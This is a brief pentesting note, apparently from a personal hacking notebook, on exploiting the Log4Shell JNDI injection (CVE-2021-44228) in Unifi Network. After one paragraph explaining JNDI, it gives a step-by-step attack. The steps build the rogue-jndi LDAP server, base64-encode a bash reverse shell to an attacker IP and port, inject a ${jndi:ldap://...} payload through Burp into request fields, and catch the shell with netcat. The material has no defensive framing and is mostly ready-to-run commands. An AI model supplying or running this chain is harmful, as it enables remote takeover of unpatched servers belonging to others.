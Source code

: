 ```yaml
---
description: Java Naming and Directory Interface
---
```


# JNDI & Log4Shell

## Basic Information

JNDI, integrated into Java since the late 1990s, serves as a directory service, enabling Java programs to locate data or objects through a naming system. It supports various directory services via service provider interfaces (SPIs), allowing data retrieval from different systems, including remote Java objects. Common SPIs include CORBA COS, Java RMI Registry, and LDAP.

## Exploiting CVE-2021-44228 in Unifi Network

A malicious LDAP server for JNDI injection attacks. The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

\*apt install maven

```bash
echo 'bash -c bash -i >&/dev/tcp/192.168.11.50/4444 0>&1' | base64
```

With that Base64 output, build your command in rogue-jndi:

```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTkyLjE2OC4xMS41MC80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "192.168.11.50"
```

Replace the Base64 encoded string after “echo”

**Go to Burpsuit and insert the below code . Place ( Headers, Body, Target, Input )**

```java
${jndi:ldap://192.168.11.50:1389/o=tomcat}
```

\*nc -nvlp 4444

